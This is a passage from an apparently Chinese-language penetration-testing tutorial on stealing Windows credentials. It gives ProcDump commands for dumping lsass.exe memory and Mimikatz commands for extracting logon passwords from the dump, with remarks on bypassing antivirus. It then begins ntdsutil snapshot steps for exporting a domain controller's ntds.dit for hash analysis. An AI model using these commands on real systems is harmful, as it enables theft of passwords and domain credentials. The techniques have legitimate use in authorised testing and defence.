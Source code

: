 4、ProcDump + Mimikatz本地分析  
文件会比较大，低效，但是安全(绕过杀软)  
ps:mimikatz的平台（platform）要与进行dump的系统(source dump)兼容(比如dowm了08的,本地就要用08系统来分析)  
```
远程：
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
本地：
sekurlsa::minidump lsass.dump.dmp
sekurlsa::logonpasswords full
```
![](/sourcepictures/2017/11/06/5/2.jpg)


#####（二）ntds.dit的导出+QuarkPwDump读取分析  
无法抓取所有用户,需要免杀  

这个方法分为两步：  
第一步是利用工具导出ntds.dit  
第二步是利用QuarkPwDump去分析hash  

1、ntds.dit的导出  
1. ntdsutil    win2008开始DC中自带的工具  
a.交互式  
```
snapshot
activate instance ntds
create
mount xxx
```
![](/sourcepictures/2017/11/06/5/7.jpg)
